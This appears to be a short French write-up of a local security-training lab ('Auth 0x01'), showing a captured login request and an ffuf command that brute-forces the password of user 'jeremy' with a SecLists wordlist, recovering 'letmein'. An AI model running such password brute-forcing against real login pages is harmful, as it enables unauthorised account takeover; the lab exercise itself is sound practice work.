

# Auth 0x01
## preuve:



## Explication 
1- Il faut récupérer la request de la page login via Burpsuit, ensuite enregistrer la request en .txt :
```
POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=FUZZ
```
 La section qui nous interrese est ```username=jeremy&password=FUZZ```, j'ai remplacé le mdp que j'ai rentré lors de ma requet par ```FUZZ```

Une fois ceci fait, j'ai procéder a une attaque brute force via une wordlist télécharger préalablement, voici les etapes :

  ## Lancé un terminal 
  
  
```
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814 

```
### et voici le resultat
```
  letmein  [Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 17ms]
		:: Progress: [10000/10000] :: Job [1/1] :: 298 req/sec :: Duration: [0:00:37] :: Errors: 0 
```
	
Je peux voir dans le resultat de la commande que un mot de passe a été trouvé : ```letmein```


